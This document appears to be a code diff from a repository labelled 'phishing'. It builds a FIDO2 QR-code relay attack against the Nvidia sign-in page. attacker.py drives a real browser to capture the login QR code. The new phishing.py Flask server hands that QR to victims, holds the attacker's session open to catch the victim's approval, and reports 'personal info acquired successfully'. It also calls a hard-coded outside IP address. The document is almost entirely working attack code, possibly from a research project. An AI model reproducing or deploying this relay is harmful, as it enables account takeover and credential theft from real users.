

phishing

Changed region(s): [[0.0576, 0.0576, 0.9496, 0.9496], [0.518, 0.0576, 0.5755, 0.1151], [0.7482, 0.4892, 0.777, 0.518]]

diff --git a/attacker.py b/attacker.py
@@ -32,28 +32,30 @@ def GetQR():
 
     # Nvidia 접속
     driver.get(nvidiaUrl)
-    driver.implicitly_wait(time_to_wait=3)  # 5초까지 기다려 준다 (파싱되는 시간을 기다려준다)
+    driver.implicitly_wait(time_to_wait=1)  # 5초까지 기다려 준다 (파싱되는 시간을 기다려준다)
 
     # 보안 장치로 로그인 버튼 찾아 클릭
     signInLink = driver.find_element(By.ID, 'signIn_withSecurityDevice_link')      #####################################################################################################수정한 부분
     signInLink.click()                                                             #####################################################################################################수정한 부분
-    time.sleep(3)  # 무조건 3초 대기
+    time.sleep(4)  # 무조건 3초 대기
 
     # 마우스 클릭 QR 코드 (다른 휴대전화 또는 테블릿 사용)
     pyautogui.moveTo(1187, 360)  # 버튼 위치로 이동
     pyautogui.click()           # 클릭
-    time.sleep(3)  # 무조건 1초 대기
+    time.sleep(1)  # 무조건 1초 대기
 
     # QR 코드 화면 캡쳐
     # nvidiaQrImage = pyautogui.screenshot(qrImageFileName, region=(1055+12, 82+12, 450-24, 496-24)) # FIDO POPUP With QR
     pyautogui.screenshot(qrImageFileName, region=(1055+86, 82+134, 278, 278)) # Only QR
 
-    time.sleep(20)  # 무조건 60초 대기
+    return (driver, qrImageFileName)
 
-    if driver.title == "로그인 성공":
-        print("개인 정보 취득 성공")
+    # # time.sleep(20)  # 무조건 60초 대기
+    # if driver.title == "로그인 성공":
+    #     print("개인 정보 취득 성공")
+    # # 현재 웹 페이지 제목으로 로그인 되었는지 체크
+    # # 로그인 되었다면 사용자 정보 취득 하고 종료
+    # driver.quit()  # driver 종료
 
-    # 현재 웹 페이지 제목으로 로그인 되었는지 체크
-    # 로그인 되었다면 사용자 정보 취득 하고 종료
-    driver.quit()  # driver 종료
-
+if __name__ == "__main__":
+    GetQR()

diff --git a/phishing.py b/phishing.py
@@ -1,0 +1,70 @@
+from flask import Flask, request, render_template, send_file
+import attacker
+import logging
+import shutil
+import time
+import requests
+from threading import Thread
+app = Flask(__name__)
+
+
+@app.route("/", methods=['POST'])  #post 안쓰면 index.html이 안뜨나?
+def hello():
+    url = "http://203.253.23.36:5000"
+    im_url = "../service/fido2_phishing/public/images/nvidia_signin_with_qr.png"
+    response = requests.get(url)
+    if response.status_code == 200:
+        shutil.copy(im_url, "static/nvidia_signin_with_qr.png")
+        return "done"
+    else:
+        logging.warning("failed capturing qr")
+    return "hello"
+
+@app.route("/", methods=['GET'])
+def root():
+    return render_template("index.html")
+
+
+@app.route("/signin")
+def signin():
+    (driver, qrImageFileName) = attacker.GetQR()
+    Thread(target = attacker_task, args=(driver,)).start()
+    return send_file(qrImageFileName, mimetype='image/png')
+
+
+def attacker_task(driver):
+    time.sleep(60)
+    if driver.title == "로그인 성공":
+        print("개인 정보 취득 성공")
+    driver.quit()
+
+
+@app.route("/second")
+def twofactor():
+    url = "http://203.253.23.36:5000"
+    im_url = "../service/fido2_phishing/public/images/email.png"
+    response = requests.post(url)
+    if response.status_code == 200:
+        shutil.copy(im_url, "static/email.png")
+        return "done"
+    else:
+        logging.warning("failed capturing qr")
+    return "hello"
+
+
+@app.route("/api/qr/upload", methods=['POST'])
+def qrUploadImage():
+    qrImagePath = "/home/ubuntu/fido_phishing/static/nvidia_signin_with_qr.png"
+
+    logging.info("upload >>>>>>>>>>>")
+    requestFile = request.files['file'] 
+    requestFile.save(qrImagePath)
+    logging.info("upload <<<<<<<<<<<")
+    # file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
+
+    return "upload success" 
+
+
+if __name__ == "__main__":
+    app.run(host='0.0.0.0',port=5000,debug=True)
+
